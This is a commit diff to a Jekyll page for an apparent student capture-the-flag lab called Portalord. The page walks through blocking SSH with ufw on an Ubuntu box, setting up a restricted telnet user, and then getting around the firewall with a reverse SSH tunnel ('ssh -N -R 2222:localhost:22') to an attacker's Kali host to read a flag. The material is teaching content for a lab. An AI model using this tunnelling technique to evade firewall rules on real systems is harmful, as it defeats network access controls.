

Before and after one commit to jboyce1/ppsCTF, a Jekyll site: the page built from classes/Portalord/Portalord.md, in a window 1280 px wide and 1400 px high, scrolled down 475 px, cut to the strip 107-1400 px from the top of the window. Shown: the whole strip at 85% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update Portalord.md

```diff
--- a/classes/Portalord/Portalord.md
+++ b/classes/Portalord/Portalord.md
@@ -17,28 +17,67 @@ title: Portalord
 
 ---
 # 1 using remote ssh
-1. using remote ssh to connect back to a students localhost and get around ufw rules set up in the environment.
+using remote ssh to connect back to a students localhost and get around ufw rules set up in the environment.
 
 
+### On the ssh-closed-box (ubuntu)
 Set up the ufw wirewalls to block all traffic to port 22
 <div class="scroll-box">
-sudo ufw reset
 sudo ufw deny 22
 sudo ufw enable
 </div>
 
+turn password authentication on for the ubuntu box
+#### `sed...`
+
+create a file that is only accessable to an ssh session by setting a "read only by owner"
+<div class="scroll-box">
+echo "insert a flag here" > /home/ubuntu/ssh_flag.txt
+chmod 600 /home/ubuntu/ssh_flag.txt
+</div>
+chmod permissions: Read (r=4), Write (w=2), Execute (x=1)
+first int is the owner
+second int is the group
+third int is others
+so 600 = 4+2 for the owner and 0 for group and 0 for everyone else
+
 Create a user that can only access telnet specific files
-#### `cd /home/inetd.conf`
 #### `sudo adduser teluser`
 
+set limited permissions for teluser
+#### `sudo nano /usr/local/bin/telnet_shell.sh`
+<div class="scroll-box">
+#!/bin/bash
+echo "You have limited access."
+echo "You may only use: ls, cat"
+export PATH=/usr/bin
+exec /bin/bash --restricted
+</div>
+
+install and open telnet services
+<div class="scroll-box">
+sudo apt update && sudo apt install telnetd -y && sudo apt install openbsd-inetd -y
+</div>
+
 ### On the attacker-box
-Install telnet server if needed:
+Install telnet if needed:
 <div class="scroll-box">
-sudo apt install openbsd-inetd telnetd -y
+sudo apt update && sudo apt install telnet -y
 </div>
 
 now telnet into the ssh-closed-box
 #### `telnet x.x.x.x`
+
+now bind a local high port to local 22
+<div class="scroll-box">
+ssh -N -R 2222:localhost:22 kali@your.kali.ip.addr.
+</div>
+
+if it appears to "hang" you have an open connection
+now from a differnt terminal on you kali localhost
+####'ssh -p2222 ubuntu@ssh.closed.box.ip
+
+go and find your flag
 
 # 2 portbinding
 
```
